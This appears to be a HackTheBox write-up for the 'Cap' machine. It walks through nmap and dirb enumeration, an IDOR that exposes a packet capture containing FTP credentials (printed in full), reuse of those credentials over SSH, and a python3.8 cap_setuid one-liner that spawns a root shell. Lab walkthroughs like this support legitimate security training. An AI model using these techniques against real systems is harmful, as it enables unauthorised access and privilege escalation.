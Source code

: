 ```yaml
---
title: "Writeup - Cap HTB"
date: 2025-02-19T00:00:00+00:00
tags: ["hacking", "english","cybersec","writeups"]
author: "XoanOuteiro"
showToc: true
TocOpen: false
draft: false
description: "A brief solution of the Cap machine on HackTheBox"
---
```


Ping for TTL and visibility

``` java
❯ ping -c 1 10.10.10.245

PING 10.10.10.245 (10.10.10.245) 56(84) bytes of data.
64 bytes from 10.10.10.245: icmp_seq=1 ttl=63 time=37.3 ms

--- 10.10.10.245 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 37.252/37.252/37.252/0.000 ms
```

(TTL suggests Linux)

``` java
❯ sudo nmap -sS -A -T4 10.10.10.245 -oN nmap.txt

[sudo] password for kali: 
Starting Nmap 7.95 ( https://nmap.org ) at 2025-02-18 19:30 CET
Nmap scan report for 10.10.10.245
Host is up (0.037s latency).
Not shown: 997 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 fa:80:a9:b2:ca:3b:88:69:a4:28:9e:39:0d:27:d5:75 (RSA)
|   256 96:d8:f8:e3:e8:f7:71:36:c5:49:d5:9d:b6:a4:c9:0c (ECDSA)
|_  256 3f:d0:ff:91:eb:3b:f6:e1:9f:2e:8d:de:b3:de:b2:18 (ED25519)
80/tcp open  http    Gunicorn
|_http-server-header: gunicorn
|_http-title: Security Dashboard
Device type: general purpose
Running: Linux 5.X
OS CPE: cpe:/o:linux:linux_kernel:5.0
OS details: Linux 5.0, Linux 5.0 - 5.14
Network Distance: 2 hops
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 111/tcp)
HOP RTT      ADDRESS
1   37.88 ms 10.10.14.1
2   38.07 ms 10.10.10.245

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 18.76 seconds
```

## FTP Enum

No FTP anon login allowed sadly:

``` bash
❯ ftp 10.10.10.245
Connected to 10.10.10.245.
220 (vsFTPd 3.0.3)
Name (10.10.10.245:kali): anonymous
331 Please specify the password.
Password: 
530 Login incorrect.
ftp: Login failed
ftp> 
ftp> 
ftp> exit
221 Goodbye.

❯ sudo nmap -p 21 --script ftp-anon 10.10.10.245
Starting Nmap 7.95 ( https://nmap.org ) at 2025-02-18 19:34 CET
Nmap scan report for 10.10.10.245
Host is up (0.039s latency).

PORT   STATE SERVICE
21/tcp open  ftp

Nmap done: 1 IP address (1 host up) scanned in 4.59 seconds
```

Lets take a look at the other services before running into an hour long brute-force attack.
## HTTP Enum

``` bash
❯ dirb http://10.10.10.245/ | tee dirb.txt

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Tue Feb 18 19:35:42 2025
URL_BASE: http://10.10.10.245/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://10.10.10.245/ ----
+ http://10.10.10.245/data (CODE:302|SIZE:208)                                                        
^C> Testing: http://10.10.10.245/done    
```

Dirb doesnt enumerate much of anything. I'll walk the app before running ferox.

The app has a dashboard and some network data, but the most interesting URL is hxxp://10.10.10.245/data/4, which could potentially be vulnerable to IDORs. (It's often a good practice to fuzz any endpoint that uses a cleartext number for anything)

Changing the URL to hxxp://10.10.10.245/data/0 shows different information than that which we originally had, we can download it as PCAP data.

![A packet capture depicting FTP login traffic](/images/HTB_CAP_PCAP.png)

We find FTP user cred: nathan:Buck3tH4TF0RM3!

``` java
❯ ftp 10.10.10.245
Connected to 10.10.10.245.
220 (vsFTPd 3.0.3)
Name (10.10.10.245:kali): nathan
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||29740|)
150 Here comes the directory listing.
drwxr-xr-x    3 1001     1001         4096 Feb 18 16:19 snap
-r--------    1 1001     1001           33 Feb 18 15:07 user.txt
226 Directory send OK.
ftp> get user.txt
local: user.txt remote: user.txt
229 Entering Extended Passive Mode (|||16511|)
150 Opening BINARY mode data connection for user.txt (33 bytes).
100% |**********************************************************|    33        1.20 MiB/s    00:00 ETA
226 Transfer complete.
33 bytes received in 00:00 (0.80 KiB/s)
```

user.txt seems to be the user flag.

We can use the same creds for SSH:

``` java
❯ ssh nathan@10.10.10.245

The authenticity of host '10.10.10.245 (10.10.10.245)' can't be established.
ED25519 key fingerprint is SHA256:UDhIJpylePItP3qjtVVU+GnSyAZSr+mZKHzRoKcmLUI.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.245' (ED25519) to the list of known hosts.
nathan@10.10.10.245's password: 
Welcome to Ubuntu 20.04.2 LTS (GNU/Linux 5.4.0-80-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Tue Feb 18 18:46:03 UTC 2025

  System load:           0.02
  Usage of /:            36.7% of 8.73GB
  Memory usage:          35%
  Swap usage:            0%
  Processes:             227
  Users logged in:       0
  IPv4 address for eth0: 10.10.10.245
  IPv6 address for eth0: dead:beef::250:56ff:fe94:3a27

  => There are 4 zombie processes.


63 updates can be applied immediately.
42 of these updates are standard security updates.
To see these additional updates run: apt list --upgradable


The list of available updates is more than a week old.
To check for new updates run: sudo apt update
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


Last login: Tue Feb 18 18:33:31 2025 from 10.10.14.238
nathan@cap:~$ 
```

Lets transfer LinPEASS via Curl to the target.

We have these two options according to it:

``` bash
Files with capabilities (limited to 50):
/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip

Vulnerable to CVE-2021-3560
```

I'm too lazy to try to run an exploit initially, so let's see what cap_setuid is.

This is what GTFOBins mentions on the Python page:

``` bash
python -c 'import os; os.setuid(0); os.system("/bin/sh")'
```

In our particular case the capabilities are only under py3.8, so we could use:

``` bash
python3.8 -c 'import os; os.setuid(0); os.system("/bin/sh")'
```

And we are root:

``` bash
nathan@cap:~$ python3.8 -c 'import os; os.setuid(0); os.system("/bin/sh")'
# whoami
root
# cat /root/root.txt
[censored]
# 
```

